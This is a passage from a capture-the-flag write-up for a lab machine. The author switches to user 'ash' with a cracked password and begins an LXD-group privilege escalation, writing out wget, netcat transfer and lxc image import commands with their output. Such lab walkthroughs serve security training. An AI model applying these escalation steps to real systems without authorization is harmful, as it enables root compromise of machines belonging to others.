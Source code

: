 The hash cracks and we receive a password: `admin@it`. In the `/etc/passwd` file, we find the user `ash` is present on the box. Let's see if we can change users with our new password.

```
$ su ash
```

It works! We've successfully moved to `ash`. Let's grab the first flag.

![](images/user-flag.png)

## Root Flag

On to root. First thing, let's do a bit of enumeration with the user `ash`. Just to check out own privileges, we'll run the `id` and `sudo -l` commands. `sudo -l` is of little use, but `id` reveals the groups that `ash` is apart of, the most interesting being `lxd`.

```
$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

A little research reveals that LXD, a container technology, can be used to [perform privilege escalation](https://www.hackingarticles.in/lxd-privilege-escalation/).

Essentially, we're going to build a Linux Container with `ash`, duplicating the host file system, then we can open a shell as root within our container, allowing us to enumerate the file system of the host machine in a privileged context.

First, let's grab the LXD image that we'll use for the privilege escalation. We'll also run the `build-alpine` script to create the image.

```
$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
$ sudo bash build-alpine
```

On the target machine, we'll start a `netcat` listener in preparation to download the image.

```
$ nc -lp 5555 > alpine-v3.12-x86_64-20200701_1818.tar.gz
```

Next, we'll execute the following command on our box to start the transfer.

```
$ nc -w 3 10.10.10.194 5555 < alpine-v3.12-x86_64-20200701_1818.tar.gz
```

Now, we'll switch back to the machine and add the image to LXD with the following command. We'll also list the images to make sure it worked.

```
$ lxc image import alpine-v3.12-x86_64-20200701_1818.tar.gz --alias pe4me
$ lxc image list
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| pe4me | e75871098130 | no     | alpine v3.12 (20200701_18:18) | x86_64       | CONTAINER | 3.05MB | Jul 2, 2020 at 12:05am (UTC) |
+-------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```
